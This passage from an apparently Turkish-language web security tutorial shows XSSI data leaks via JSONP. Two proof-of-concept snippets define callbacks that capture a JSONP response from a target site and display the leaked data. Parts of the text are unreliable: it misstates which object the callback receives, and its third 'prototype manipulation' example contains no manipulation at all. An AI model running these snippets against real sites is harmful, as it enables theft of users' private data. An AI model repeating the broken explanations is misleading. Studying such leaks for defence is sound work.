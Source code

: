**1. kısım: JSONP ile Bilgi Sızdırma**

JSONP (JSON with Padding), web uygulamalarında yaygın olarak kullanılan bir tekniktir. Ancak, güvenlik kontrolleri yapılmadan kullanıldığında XSSI açığına yol açabilir. İşte bu senaryonun örneği:

```javascript
<script>
  var confidentialData = {
    "status": "STATUS",
    "body": {
      "demographics": {
        "email": "example@example.com",
      }
    }
  };
  
  var angular = function () { return 1; };
  angular.callbacks = function () { return 1; };
  angular.callbacks._7 = function (leaked) {
    alert(JSON.stringify(leaked));
  };
</script>
<script src="https://site.tld/p?jsonp=angular.callbacks._7" type="text/javascript"></script>
```

Bu örnekte, JSONP yanıtı içindeki `angular.callbacks._7` geri çağırma işlevi, gizli bilgileri içeren `confidentialData` nesnesini alır ve bir uyarı mesajı olarak görüntüler. Gerçek senaryoda, `confidentialData` nesnesi gerçek kullanıcı bilgileriyle doldurulacaktır.

**Senaryo 2: JSONP ile Özel İşlev Kullanma**

Bu senaryoda, JSONP yanıtının özel bir işlev üzerinden işlenmesiyle bilgi sızdırma gerçekleştirilir. İşte örneği:

```javascript
<script>
  function leak(leaked) {
    alert(JSON.stringify(leaked));
  }
</script>
<script src="https://site.tld/p?jsonp=leak" type="text/javascript"></script>
```

Bu kodda, `leak` adında bir işlev tanımlanır ve JSONP yanıtı bu işlevi tetikleyerek gizli bilgileri içeren bir nesne geçirir. Gerçek senaryoda, `leak` işlevi, gizli bilgileri ele geçirerek uygun bir şekilde işleyecektir.

**Senaryo 3: Prototype Manipülasyonu ile Bilgi Sızdırma**

Bu senaryoda, JavaScript'in prototip zinciri üzerindeki bir manipülasyonla bilgi sızdırma gerçekleştirilir. İşte örneği:

```javascript
(function(){
  var arr = ["secret1", "secret2", "secret3"];
  var x = arr.slice(1);
})();
```
